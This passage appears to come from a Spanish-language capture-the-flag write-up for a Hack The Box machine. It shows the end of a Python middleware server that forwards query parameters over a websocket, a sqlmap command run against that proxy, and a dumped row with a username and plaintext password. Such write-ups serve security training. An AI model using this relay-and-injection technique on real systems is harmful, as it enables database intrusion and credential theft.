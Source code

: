 ```python
if payload:

content = send_ws(payload)

else:

content = 'No parameters specified!'

self.send_header("Content-type", content_type)

self.end_headers()

self.wfile.write(content.encode())

return

class _TCPServer(TCPServer):

allow_reuse_address = True

httpd = _TCPServer(host_port, CustomHandler)

httpd.serve_forever()

print("[+] Starting MiddleWare Server")

print("[+] Send payloads in http://localhost:8081/?id=*")

try:

middleware_server(('0.0.0.0',8081))

except KeyboardInterrupt:

pass

```

Este código lo ejecutariamos en nuestra máquina local y en otra terminal ejecutariamos el siguiente comando

```sql

sqlmap -u "http://localhost:8081/?id=1" -p "id"

```

Este proceso puede tardar una eternidad pero con paciencia conseguiras la contraseña

```sql

+------+-------------------+----------+----------------------+

| id | email | username | password |

+------+-------------------+----------+----------------------+

| 1324 | player@player.htb | player | PlayerOftheMatch2022 |

+------+-------------------+----------+----------------------+

```

